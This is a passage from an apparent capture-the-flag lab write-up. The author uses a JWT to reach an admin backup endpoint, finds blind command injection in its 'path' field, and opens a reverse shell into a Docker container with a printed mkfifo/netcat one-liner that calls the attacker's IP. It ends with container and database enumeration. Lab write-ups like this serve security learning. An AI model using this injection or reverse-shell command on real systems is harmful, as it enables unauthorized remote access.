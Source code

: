 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917202631.png)

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
```

In endpoint /users we have localization 1 "Authorization" maybe if we add this parameter to header with this we will get sth

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917203005.png)

Great now we have another user svc
I checked rest of the endpoints, /admin/backup looks promising but 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917203434.png)

Missing body 
Tried few things and finally I figure it out we need to add content-type applocation/json, and now In body we missing path parameter

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917204116.png)

When I added path in response I got Done! 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917204252.png)

No matter what I paste

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917204334.png)

Next I tried to ping myself to check command injection, because we don't see any output, so can't test with whoami/ifconfig  

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917204958.png)

And it works, 

## Gaining Access

Now I try to get a reverse shell, tried bash oneliner, also hosting and curl but didn't work. Next I tried mkfifo nc and I got connection, but no /bin/bash so quick change to /bin/sh

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 443 >/tmp/f
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917210813.png)

And we are root, but in container :D
Next I start enumerating Docker we have defined container in Dockerfile, in app config.py is empty

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250917210950.png)

in db.py we see that postgres is running with user postgres on 172.22.0.1
